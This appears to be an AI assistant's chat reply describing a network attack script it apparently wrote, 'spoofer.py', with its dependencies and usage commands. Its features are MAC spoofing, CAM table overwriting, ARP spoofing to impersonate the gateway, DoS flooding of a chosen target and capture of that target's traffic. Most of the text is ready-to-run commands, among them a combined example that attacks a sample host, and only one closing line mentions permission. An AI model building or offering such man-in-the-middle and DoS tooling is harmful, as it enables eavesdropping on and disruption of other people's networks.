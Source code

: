 That's great to hear! This versatile script can be a powerful tool for penetration testing. Here's a final overview of what each function does and how to use it:

### Overview

- **MAC Spoofing**: Change your MAC address to a random or specified manufacturer's MAC.
- **Revert MAC**: Restore your original MAC address.
- **Subnet Scan**: Identify devices on the local subnet.
- **Overwrite CAM**: Overwrite the CAM table of the local router to impersonate a device.
- **ARP Spoofing**: Send ARP replies to make devices believe you are the gateway.
- **DoS Attack**: Perform a DoS attack on a specified target.
- **Packet Capture**: Capture network traffic intended for the target.

### Dependencies
- Python 3
- `subprocess`, `re`, `random`, `argparse`
- `scapy` (install using `pip install scapy`)
- `arp-scan`, `arpspoof`, `hping3` (install using `sudo apt-get install arp-scan dsniff hping3` or `sudo yum install arp-scan dsniff hping3`)

### Usage

1. **Scan Subnet**
   ```bash
   sudo python spoofer.py --scan
   ```

2. **Change MAC Address**
   ```bash
   sudo python spoofer.py -i <interface> -m <manufacturer>
   ```

3. **Revert MAC Address**
   ```bash
   sudo python spoofer.py -i <interface> --revert
   ```

4. **Overwrite CAM and DoS Target**
   ```bash
   sudo python spoofer.py --overwrite-cam --dos --router-ip <router-ip> --target-ip <target-ip>
   ```

5. **ARP Spoof Devices**
   ```bash
   sudo python spoofer.py --arp-spoof --router-ip <router-ip> --target-ip <target-ip>
   ```

6. **Capture Packets**
   ```bash
   sudo python spoofer.py --capture --router-ip <router-ip> --target-ip <target-ip> --output-file <file.pcap>
   ```

### Example
To overwrite the CAM, perform a DoS attack, and capture packets:
```bash
sudo python spoofer.py --overwrite-cam --dos --capture --router-ip 192.168.1.1 --target-ip 192.168.1.100 --output-file captured_packets.pcap
```

This comprehensive tool helps you perform various network penetration testing tasks, providing flexibility and power in a single script. Always ensure you have permission to perform these actions on any network.